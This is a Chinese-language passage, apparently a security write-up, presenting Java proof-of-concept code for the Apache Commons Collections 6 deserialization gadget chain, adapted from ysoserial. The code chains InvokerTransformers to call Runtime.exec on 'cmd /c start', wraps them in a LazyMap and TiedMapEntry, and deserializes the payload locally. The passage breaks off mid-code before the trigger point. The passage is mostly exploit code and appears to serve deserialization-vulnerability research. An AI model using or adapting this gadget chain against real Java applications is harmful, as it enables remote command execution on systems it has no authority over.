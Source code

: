 ## POC2(复杂版本 - 基于ysoserial)

这是基于ysoserial的代码改造的，但是逻辑几乎是没怎么动的，只是把ysoserial中调用的工具类变成了直接的写法。

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CommonsCollections6 {
    static String serialFileName = "commons-collections6.ser";

    public static void main(String[] args) throws Exception {
        cc6byYsoSerial();
        verify();
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static void cc6byYsoSerial() throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
        Field iTransformers = transformerChain.getClass().getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        //TODO===========================CC6新的触发点 START By YsoSerial=============================

```